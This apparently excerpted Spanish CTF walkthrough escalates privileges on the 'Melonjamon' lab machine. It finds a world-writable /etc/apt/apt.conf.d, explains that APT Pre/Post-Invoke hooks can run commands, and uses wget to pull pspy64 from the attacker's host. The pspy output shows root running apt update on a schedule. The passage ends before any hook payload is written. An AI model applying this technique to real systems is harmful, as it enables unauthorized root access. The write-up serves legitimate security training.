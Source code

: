 Observa el siguiente punto que resalta en amarillo (probabilidad del 95% de **Escalada de Privilegios**):
```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
...
/etc/apt/apt.conf.d
/etc/apt/apt.conf.d/00CDMountPoint
/etc/apt/apt.conf.d/00trustcdrom
/etc/apt/apt.conf.d/01autoremove
/etc/apt/apt.conf.d/20apt-show-versions
/etc/apt/apt.conf.d/70debconf
...
```
Podemos editar los archivos del directorio **apt.conf.d**.

| **Directorio apt.conf.d** |
|:------------:|
| *Es una carpeta de fragmentos de configuración que APT lee cada vez que lo ejecutas. Entre muchas cosas, ahí puedes definir “hooks” (ganchos) que APT ejecuta antes o después de ciertas acciones.* |

<br>

En este caso, los **hooks** que podemos crear en ese directorio son:
* `APT::Update::Pre-Invoke` / `APT::Update::Post-Invoke(-Success)`: Son comandos que se ejecutan antes (`Pre-Invoke`) o despues (`Post-Invoke(-Success)`) al hacer **apt update**.
* `DPkg::Pre-Invoke` / `DPkg::Post-Invoke`: Son comandos que se ejecutan cuando **APT** llama a **dpkg** (instalar/actualizar paquetes).

Además, **APT** carga los archivos en orden alfabético, así que nombres con números altos **(90…, 99…)** se leen al final y pueden añadir ajustes previos.

Entonces, la idea es que ocupemos la misma sintaxis de estos archivos para agregar un comando que nos ayude a escalar privilegios.

Tenemos este blog que nos lo puede explicar un poco mejor (ve al tema **Exploiting Cron job**):
* <a href="https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/" target="_blank">Linux for Pentester: APT Privilege Escalation</a> 

El problema ahora es que, como nuestro usuario actual, no serviría de mucho ejecutar **apt update** para cargar nuestro archivo malicioso, pues no nos ayudaría a escalar privilegios.

Quizá exista una **tarea CRON** que nos permita abusar de estos archivos.

Si aún tienes el servidor web de **Python3** activo, descarga **pspy64** en la máquina víctima:
```bash
melon@TheHackersLabs-Melonjamon:~$ wget http://Tu_IP/pspy64
melon@TheHackersLabs-Melonjamon:~$ chmod +x pspy64
```

Ejecútalo:
```bash
2025/08/12 22:29:46 CMD: UID=42    PID=8267   | gpgconf --kill all 
2025/08/12 22:29:46 CMD: UID=42    PID=8268   | /bin/sh /usr/bin/apt-key --quiet --readonly verify --status-fd 3 /tmp/apt.sig.Wd4k11 /tmp/apt.data.G3zruL 
2025/08/12 22:29:46 CMD: UID=0     PID=8269   | /usr/bin/apt update 
2025/08/12 22:29:46 CMD: UID=0     PID=8270   | /usr/bin/apt update 
2025/08/12 22:29:46 CMD: UID=0     PID=8271   | sh -c test -x /usr/bin/apt-show-versions || exit 0 ; apt-show-versions -i 
2025/08/12 22:29:46 CMD: UID=0     PID=8272   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:46 CMD: UID=0     PID=8273   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:46 CMD: UID=0     PID=8274   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:46 CMD: UID=0     PID=8275   | sh -c apt-get indextargets -o Dir::State::lists=/var/lib/apt/lists/ --format='$(FILENAME)' 'Created-By: Packages' 
2025/08/12 22:29:46 CMD: UID=0     PID=8276   | apt-get indextargets -o Dir::State::lists=/var/lib/apt/lists/ --format=$(FILENAME) Created-By: Packages 
2025/08/12 22:29:47 CMD: UID=0     PID=8277   | apt-get indextargets -o Dir::State::lists=/var/lib/apt/lists/ --format=$(FILENAME) Created-By: Packages 
2025/08/12 22:29:47 CMD: UID=0     PID=8278   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
```